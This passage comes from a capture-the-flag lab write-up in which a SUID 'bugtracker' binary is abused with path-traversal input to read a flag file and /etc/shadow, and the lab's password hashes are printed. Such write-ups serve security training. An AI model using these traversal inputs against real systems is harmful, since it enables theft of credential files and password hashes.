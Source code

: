 ```bash

Provide Bug ID: 2
---------------

If you connect to a site filezilla will remember the host, the username and the password (optional). The same is true for the site manager. But if a port other than 21 is used the port is saved in .config/filezilla - but the information from this file isn't downloaded again afterwards.

ProblemType: Bug
DistroRelease: Ubuntu 16.10
Package: filezilla 3.15.0.2-1ubuntu1
Uname: Linux 4.5.0-040500rc7-generic x86_64
ApportVersion: 2.20.1-0ubuntu3
Architecture: amd64
CurrentDesktop: Unity
Date: Sat May 7 16:58:57 2016
EcryptfsInUse: Yes
SourcePackage: filezilla
UpgradeStatus: No upgrade log present (probably fresh install)
```

The use of `cat` in the bugtracker binary seems to look for a file with the prefix `/root/reports/D`. If the validation is not performed correctly, we can try and dump other files. Let's POC it with the user.txt file:

```

robert@oopsie$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../home/robert/user.txt
---------------

f2c74ee8db7983851ab2a96a44eb7981

*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

Success! The stack smashing is probably due to the fact the filepath input was longer than any expected Bug ID. With this, let's dump the shadow file!

```bash
robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../etc/shadow
---------------

root:$6$eD0n5saZ$orykpdd7mVL/lF57rIGwUzeSROPC1KRITJ45Nqn6P2BLaZ.tcSOy5fNFcOw9uBRkClgu5R9WlyxpEId5qOOVY.:18285:0:99999:7:::
...
robert:$6$kriHoPwv$iBt45Fu0g4R0uNWSubfjDRvtUSwxVu.U1JhYKmT4voMWlVc3/u2nu0j0JZL0YWmm62vRgAs4acBl8Ge.S393H/:18285:0:99999:7:::
```
